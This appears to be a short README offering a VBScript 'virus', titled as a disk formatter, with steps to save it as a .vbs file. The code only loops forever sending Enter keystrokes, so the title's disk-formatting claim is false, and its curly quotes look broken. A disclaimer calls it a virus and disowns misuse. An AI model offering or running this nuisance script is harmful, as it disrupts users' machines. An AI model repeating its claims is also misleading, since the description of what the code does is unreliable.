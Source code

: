# Disk Formatter EXE File Virus/Programme 
This code will Continuously Hit Enter Button After Executing The Files. 
<br>
# or
<br>
# copy the following code in notepad and save that with .vbs extention

```vbs
 Set wshShell = wscript.CreateObject(”WScript.Shell”)
 do
 wscript.sleep 100
 wshshell.sendkeys “~(enter)”
 loop
```
# Disclaimer
This Is Not A Toy. This Is A Virus. Dont Try It On Any Real Hardware. I Am Not Responsible for Any Misuse Of This Virus.

